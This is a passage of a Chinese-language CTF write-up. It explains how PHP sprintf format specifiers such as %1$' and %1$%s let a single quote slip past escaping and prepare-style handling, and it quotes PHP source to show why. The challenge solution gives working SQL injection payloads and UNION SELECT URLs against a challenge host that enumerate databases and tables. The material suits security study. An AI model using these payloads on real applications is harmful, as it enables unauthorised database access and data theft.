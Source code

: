 #### 过转义

```%1$'```-->```%1$\'```-->```'```

这个绕过的原型是```%'```，当其经过转义后变成```%、'```，但因为不存在```%\```这种类型，在sprintf函数源码中直接跳过了处理，因此```%\```相当于直接被删掉导致单引号逃逸:

```%'```-->```%\'```-->```'```

但是拼接的格式化字符串中肯定还会有%s，所以加上指明参数的```1$```可以不引发报错。


部分源码如下：在ext/standard/formatted_print.c第643行可见对其他字符直接break

```c
                case 'b':
                    php_sprintf_append2n(&result, &outpos,
                                         zval_get_long(tmp),
                                         width, padding, alignment, 1,
                                         hexchars, expprec);
                    break;

                case '%':
                    php_sprintf_appendchar(&result, &outpos, '%');

                    break;
                default:
                    break;
```

#### 过prepare

```%1$%s```-->```%1$'%s'```-->```'```

这个和上面完全是两种利用思路，这个是把单引号当为控制填充的符号，语意为利用`%`填充，导致后面的单引号逃逸

### 本题注入解法

很显然title变量拼接进第二个格式化字符串，并且是需要过转义，尝试如下payload：

```
id=1&title=%1$'%20or%201=1%23
```

成功注入，通过联合查询，最终查询到flag

```
http://116.85.39.110:5032/a8e794800ac5c088a73b6b9b38b38c8d/index.php?id=1&title=%1$%27%20union%20select%201,2,group_concat(schema_name)%20from%20information_schema.schemata%20%23

information_schema,a8e79480

http://116.85.39.110:5032/a8e794800ac5c088a73b6b9b38b38c8d/index.php?id=1&title=%1$%27%20union%20select%201,2,group_concat(table_name)%20from%20information_schema.tables%20where%20table_schema=database()%20%23

